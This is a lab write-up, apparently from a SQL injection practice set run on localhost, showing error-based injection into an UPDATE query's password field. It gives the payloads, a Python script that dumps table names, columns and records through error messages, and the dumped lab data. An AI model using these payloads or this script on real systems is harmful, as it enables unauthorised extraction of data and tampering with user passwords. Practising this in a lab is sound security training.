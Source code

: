 # Lesson-17

POST parameter UPDATE Query  injection

When we try just `admin` and `12345` we get **SUCCESSFULLY UPDATED YOUR PASSWORD**

When we try to inject in the username field It shows **BUG OFF YOU SILLY DUMB HACKER**

But when we try to inject in the password field with a valid username, we were able to do that

Putting username as `admin` and password as `'` gave us an error

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1
```

So the query must be like :

```ABAP
UPDATE users SET password="" where username="admin"
```

So we have to use `'` to break the query and it shows errors so we have to get the password through errors

We give username : `admin` and password `' or 1=1 #` It gives : **SUCCESSFULLY UPDATED YOUR PASSWORD**

payload :

```ABAP
' or (select 1 from(select count(*),concat(0x3a,(select email_id from emails limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); #
```

So I created a script to do the work

```python
import requests


get_table = "(select table_name from information_schema.tables where table_schema= database() limit {0},1)"
get_column = "(select column_name from information_schema.columns where table_name = '{0}' limit {1},1)"
get_secret = "(select {0} from {1} limit {2},1)"
url = "http://localhost:1234/Less-17/"
session = requests.Session()

payload="' or (select 1 from(select count(*),concat(0x3a,{},0x3a,floor(rand()*2))a from information_schema.tables group by a)b); #"
table=""
for i in range(4):
    find=get_table.format(i)
    response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
    while('Subquery returns more than 1 row' in response.text):
        response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
    temp=response.text[1392:1460]
    table=temp[temp.index(':')+1:temp.rindex(':')]
    column=""
    print("From Table",table,": ")
    for j in range(4):
        find=get_column.format(table,j)
        response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
        while('Subquery returns more than 1 row' in response.text):
            response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
        temp=response.text[1392:1460]
        if(':' in temp):
            column=temp[temp.index(':')+1:temp.rindex(':')]
            content=""
            print("Column",column," - ",end='')
            for k in range(10):
                find=get_secret.format(column,table,k)
                response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
                while('Subquery returns more than 1 row' in response.text):
                    response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
                temp=response.text[1392:1460]
                if(':' in temp):
                    content=temp[temp.index(':')+1:temp.rindex(':')]
                    print(content,end=",")
            print()
```

It gave me:

```ABAP
From Table emails : 
Column id  - 1,2,3,4,5,6,7,8,
Column email_id  - Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com,
From Table referers : 
Column id  - 
Column referer  - 
Column ip_address  - 
From Table uagents : 
Column id  - 
Column uagent  - 
Column ip_address  - 
Column username  - 
From Table users : 
Column id  - 1,2,3,4,5,6,7,8,9,10,
Column username  - Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,
Column password  - 1,1,1,1,1,1,1,1,1,1,
```
